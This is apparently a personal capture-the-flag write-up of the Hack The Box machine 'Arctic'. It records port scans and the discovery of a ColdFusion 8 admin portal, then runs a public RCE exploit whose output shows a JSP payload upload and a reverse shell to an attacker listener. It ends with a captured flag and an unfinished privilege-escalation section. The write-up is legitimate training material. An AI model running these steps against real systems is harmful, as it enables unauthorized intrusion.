 ```yaml
---
date: 2024-10-10
title: Arctic HTB Write-Up
machine_ip: 10.10.10.11
os: Windows
difficulty: Easy
my_rating: 
tags:
  - Windows
  - PrivEsc
references: "[[📚CTF Box Writeups]]"
---
```

# INSTALL ONTO DESKTOP KALI VM ALSO
==[Rustscan](https://github.com/RustScan/RustScan/wiki/Installation-Guide) ==
`-a <IP> -t 500 -b 1500 -- -A` 
`-- -`
	- `then nmap tacks`
	- Misses some open ports so also use **nmap**

==feroxbuster==
- `sudo apt-get install feroxbuster`


---

# Enumeration

- Rustscan
```
┌──(root㉿swabby)-[~/Downloads]
└─# rustscan -a 10.10.10.11 -t 500 -b 1500 -- -sVC
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.10.11:135
Open 10.10.10.11:8500
Open 10.10.10.11:49154
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-10 14:23 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:23
Completed NSE at 14:23, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:23
Completed NSE at 14:23, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:23
Completed NSE at 14:23, 0.00s elapsed
Initiating Ping Scan at 14:23
Scanning 10.10.10.11 [4 ports]
Completed Ping Scan at 14:23, 0.61s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:23
Completed Parallel DNS resolution of 1 host. at 14:23, 0.41s elapsed
DNS resolution of 1 IPs took 0.41s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 14:23
Scanning 10.10.10.11 [3 ports]
Discovered open port 135/tcp on 10.10.10.11
Discovered open port 49154/tcp on 10.10.10.11
Discovered open port 8500/tcp on 10.10.10.11
Completed SYN Stealth Scan at 14:23, 0.20s elapsed (3 total ports)
Initiating Service scan at 14:23
Scanning 3 services on 10.10.10.11
Completed Service scan at 14:26, 161.56s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.11.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:26
Completed NSE at 14:26, 11.50s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:26
Completed NSE at 14:26, 5.40s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:26
Completed NSE at 14:26, 0.00s elapsed
Nmap scan report for 10.10.10.11
Host is up, received echo-reply ttl 127 (0.46s latency).
Scanned at 2024-10-10 14:23:48 EDT for 179s

PORT      STATE SERVICE REASON          VERSION
135/tcp   open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack ttl 127
49154/tcp open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:26
Completed NSE at 14:26, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:26
Completed NSE at 14:26, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:26
Completed NSE at 14:26, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.91 seconds
           Raw packets sent: 7 (284B) | Rcvd: 7 (324B)
```

==- web enum
	- feroxbuster
	- gobuster
	- dirsearch
	- dirbuster
	- whatweb
==

- The Managed File Transfer Protocol (mftp) on port 8500 that is open at `http://10.10.10.11:8500/` shows directories we can browse.
	- We also found during enumeration `http://10.10.10.11:8500/CFIDE/administrator/` which leads us to a Web Portal for Adobe Cold Fusion 8 Administrator
	- Upon research, we find that:
		- "ColdFusion scripts are commonly run as an elevated user, such as NT-Authority\SYSTEM (Windows) or root (Linux), making them especially susceptible to web-based attacks."

# Foothold
- gain shell via exploit
- Using `searchsploit`, we find an exploit for Adobe ColdFusion 8 - Remote Command Execution (RCE), `cfm/webapps/50057.py`
```
┌──(root㉿swabby)-[~/Downloads]
└─# searchsploit Adobe ColdFusion 8
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
...
Adobe ColdFusion 8 - Remote Command Execution (RCE)                               | cfm/webapps/50057.py
...
```

- Running this exploit and specifying the lhost, lport, rhost, and rport, we can get a shell
```
┌──(root㉿swabby)-[~/Downloads]
└─# python3 ./50057.py

Generating a payload...
Payload size: 1497 bytes
Saved as: 63f11d8a07d1477dad1838d737b6aad1.jsp

Priting request...
Content-type: multipart/form-data; boundary=fae0014bf9974fbe87c057c88e20fa06
Content-length: 1698

--fae0014bf9974fbe87c057c88e20fa06
Content-Disposition: form-data; name="newfile"; filename="63f11d8a07d1477dad1838d737b6aad1.txt"
Content-Type: text/plain

Printing some information for debugging...
lhost: 10.10.14.31
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: 63f11d8a07d1477dad1838d737b6aad1.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.11] 49852



Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

- Now that we have user, we can grab user flag and work on escalating
```
C:\Users\tolis\Desktop>type user.txt
type user.txt
6cd6312904873a6491b4e01b8c7c36f8
```
# PrivEsc
- escalate from webshell/user to root
- We see we have `SeImpersonatePrivilege`
```
C:\Users\tolis\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

- Lets try a Potato attack
```

```
